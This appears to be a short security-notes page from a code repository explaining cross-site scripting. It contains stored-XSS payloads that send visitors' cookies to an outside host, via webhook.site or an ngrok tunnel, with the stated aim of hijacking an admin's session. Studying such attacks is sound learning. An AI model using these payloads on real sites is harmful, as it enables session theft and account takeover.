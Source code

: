# Cross Side Scripting

Cross-Site Scripting (XSS) is a type of security vulnerability commonly found in web applications. It occurs when an attacker injects malicious scripts into a web page, which is then executed by unsuspecting users. This allows the attacker to steal data, hijack user sessions, or perform various malicious actions on the victim's behalf.

### Type of Xss

- [verify XSS]
- [stored XSS](#stored-xss)
- [reflected XSS]
- [DOM-based XSS]

## Verify XSS

```js
<script>alert(document.cookie)</script>
```

## Stored Xss

Stored Cross-Site Scripting (XSS) attacks, often referred to as "persistent XSS", are a type of web vulnerability where malicious scripts are injected and stored on a web application's server. These scripts are then served to other users who visit the affected web page.

- [steal cookie](#steal-cookie)

### Steal cookie

The idea is to infect the web page so that when a user logs in, we steal their cookies. If it's the admin, we can then take control of the website.

#### Exploit with webhook

goto [WebHook website](https://webhook.site/) to get a https to redirect users and see their cookies.

```js
<script>document.location='	https://webhook.site/...?c=' + document.cookie</script>
```

#### Exploit local server // not working 

```bash
$> php -S localhost:9999
...
$> ngrok http 9999
Forwarding                    https://58e1-89-207-171-106.ngrok-free.app -> http://localhost:9999
...
```

```js
<script>document.location='https://58e1-89-207-171-106.ngrok-free.app?c=' + document.cookie</script>
```

Then check php server to see all cookies.

---

[**:arrow_right_hook: Back home**](/README.md)
